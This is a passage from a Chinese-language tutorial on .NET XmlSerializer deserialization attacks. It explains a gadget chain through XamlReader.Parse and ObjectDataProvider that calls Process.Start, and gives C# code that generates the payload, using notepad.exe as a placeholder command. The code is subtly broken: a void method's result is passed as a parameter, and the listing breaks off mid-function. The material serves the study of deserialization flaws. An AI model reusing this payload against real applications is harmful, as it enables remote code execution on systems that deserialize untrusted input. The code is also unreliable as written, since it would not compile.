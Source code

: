 ![](./img/7.8.png)


## 2.1 XamlReader

`XamlReader`他有一个方法`Parse(String)` 是传入一个字符串，返回根对象,那么我们用`ObjectDataProvider`构造传参一个`XAML`,同时XAML的`ObjectDataProvider`调用`Process.Start`那么利用链就成功了。

## 2.2 ResourceDictionary

要生成XAML还需要引用[ResourceDictionary](https://docs.microsoft.com/zh-cn/dotnet/api/system.windows.resourcedictionary)类。


## 2.3 生成payload

>code 2.3 

```

public static void xaml_data()
{
    ObjectDataProvider objectDataProvider = new ObjectDataProvider();
    objectDataProvider.ObjectType = typeof(System.Diagnostics.Process);
    objectDataProvider.MethodParameters.Add("notepad.exe");
    objectDataProvider.MethodName = "Start";
    ResourceDictionary R_xaml = new ResourceDictionary();
    R_xaml.Add("test", objectDataProvider);
    string xaml_data;
    using (MemoryStream stream = new MemoryStream())
    {

        XamlServices.Save(stream, objectDataProvider);
        stream.Position = 0;
        StreamReader reader = new StreamReader(stream);
        xaml_data = reader.ReadToEnd();
        stream.Close();
    }

    Console.WriteLine(xaml_data);
}

public static void xml_payload()
{
    ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider> myExpWrap = new ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>();
    myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
    myExpWrap.ProjectedProperty0.ObjectInstance = new System.Windows.Markup.XamlReader();
    myExpWrap.ProjectedProperty0.MethodName = "Parse";
    myExpWrap.ProjectedProperty0.MethodParameters.Add(xaml_data());

    using (MemoryStream stream = new MemoryStream())
    {
        XmlSerializer xml = new XmlSerializer(typeof(ExpandedWrapper<System.Windows.Markup.XamlReader, ObjectDataProvider>));
```